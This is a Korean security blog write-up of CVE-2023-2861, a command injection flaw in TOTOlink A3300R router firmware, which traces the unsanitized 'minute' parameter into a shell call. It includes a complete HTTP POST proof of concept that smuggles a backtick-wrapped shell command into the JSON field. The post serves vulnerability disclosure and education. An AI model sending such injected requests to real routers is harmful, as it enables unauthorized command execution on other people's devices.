 ```yaml
---
title: "[하루한줄] CVE-2023-2861: TOTOlink A3300R 펌웨어 Command Injection 취약점"
author: pwndorei
tags: [TOTOlink, pwndorei, command injection]
categories: [1day1line]
date: 2024-01-25 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/TOTOLINK%20A3300R%20setScheduleCfg.md)

## Target

- TOTOlink A3300R Firmware Version: V17.0.0cu.557_B20221024

## Explain

TOTOlink 사의 라우터 제품인 A3300R의 펌웨어에서 Command Injection 취약점이 발견되었습니다.

펌웨어를 추출하고 라이브러리들의 목록을 살펴보면 `libcscommon.so`라는 라이브러리가 있는 것을 확인할 수 있습니다. 여기에 정의된 함수들 중 `Uci_Set_Str`이란 함수에서는 아래처럼 다양한 문자열들을 인자로 `snprintf` 함수를 호출해서 `uci -c %s set %s.%s.%s=\"%s\"`형태의 문자열을 포맷팅하고 이를 인자로 `CsteSystem`함수를 호출합니다.

![image0](2024-01-25/image0.png)

 `CsteSystem` 함수에서는 인자로 전달 받은 문자열을 사용해서 `execv("/bin/sh", <cmd line>)`을 호출하여 실행파일 uci를 명령줄 인자와 함께 실행합니다.

![image1](2024-01-25/image1.png)

취약점은 `setScheculeCfg` 요청을 받았을 때 `minute` 파라미터로 전달한 값이 아래처럼 `Uci_Set_Str` 함수의 인자로 아무런 sanitizing 없이 사용되면서 발생합니다.

![image2](2024-01-25/image2.png)

결과적으로 `Uci_Set_Str`함수에서 `snprintf`로 포맷팅된 아래와 같은 문자열을 `CsteSystem`함수 호출에 사용하면서 Command Injection이 가능하게 됩니다.

```bash
uci -c {pcVar3} set {pcVar2}.rebootsch.minute=\"{minute}\"
```

아래의 PoC는 `ls>/web/345.txt`라는 OS Command를 Injection하는 페이로드를 `minute` 파라미터를 통해 전달합니다.

```
POST /cgi-bin/cstecgi.cgi?token=AEAF12ADD613E086 HTTP/1.1
Host: itotolink.net
Content-Length: 107
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"mode":"1","hour":"1","minute":"14`ls>/web/345.txt`","week":"64","recHour":"","topicurl":"setScheduleCfg"}
```

`minute`로 전달된 ``14\`ls>/web/345.txt``는 `snprintf`를 거쳐 아래와 같이 `CsteSystem` 함수 호출에 사용됩니다

```c
CsteSystem("uci -c {pcVar3} set {pcVar2}.rebootsch.minute=\"14`ls>/web/345.txt`\"", 0);
```

backtick(`` ` ``)으로 감싸진 `ls>/web/345.txt` 가 실행되면서 `ls`의 출력이 `/web/345.txt`라는 파일에 저장되고  `/345.txt`로 GET 요청을 보내는 것으로 Command Injection이 트리거된 것을 확인할 수 있습니다.

![image3](2024-01-25/image3.png)

이 취약점 외에도 CVE-2024-23059, CVE-2024-23060 등 유사하거나 같은 방식으로 Command Injection이 가능한 취약점이 다수 존재합니다.

## Reference

- [Related CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-16807/product_id-141084/version_id-740353/Totolink-A3300r-Firmware-17.0.0cu.557-b20221024.html)